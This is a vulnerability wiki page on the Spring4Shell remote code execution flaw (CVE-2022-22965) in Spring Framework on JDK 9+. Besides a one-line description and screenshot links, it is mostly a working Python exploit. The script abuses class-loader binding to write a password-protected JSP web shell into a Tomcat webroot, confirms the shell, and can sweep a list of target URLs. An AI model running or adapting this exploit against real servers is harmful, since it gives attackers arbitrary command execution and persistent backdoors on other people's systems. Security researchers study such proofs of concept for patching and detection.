 # Spring Core JDK9+ Spring4Shell remote command execution vulnerability *CVE*-2022-22965

## Vulnerability Description

Spring is currently the most popular JavaEE lightweight open source framework in the world and is one of the most successful frameworks in the Java world. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">JDK 9.0+, Spring framework, derivative framework spring-beans-*.jar</span>

## Vulnerability reappears

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648707142327-ac12fca3-0b71-4d7a-9a63-2afb632b2478.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648707153387-68e94738-b82e-491b-b5f2-aea83a44326c.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648707194053-66b17ce7-78f2-44fa-9030-706812093cf1.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648707221623-63f0b8fd-68fc-40b3-93ab-3c849f549c7d.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648707223946-3cd95600-be21-4bb8-b97d-0c7235f18e55.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648707238287-438fa60f-0b47-4045-817e-1815e84336b0.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648707240439-c13c2a1c-a1b8-4765-b3cd-bec110e89a91.png)



## Vulnerability POC

```php
#coding:utf-8

import requests
import argparse
from urllib.parse import urljoin

def Exploit(url):
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }
    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
    try:

        go = requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, 'tomcatwar.jsp')
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"漏洞存在，shell地址为:{shellurl}?pwd=j&cmd=whoami")
    except Exception as e:
        print(e)
        pass




def main():
    parser = argparse.ArgumentParser(description='Srping-Core Rce.')
    parser.add_argument('--file',help='url file',required=False)
    parser.add_argument('--url',help='target url',required=False)
    args = parser.parse_args()
    if args.url:
        Exploit(args.url)
    if args.file:
        with open (args.file) as f:
            for i in f.readlines():
                i = i.strip()
                Exploit(i)

if __name__ == '__main__':
    main()
```

## Reference article

<a-alert type="success" message="https://github.com/craig/SpringCore0day" description="" showIcon>
</a-alert>
<br/>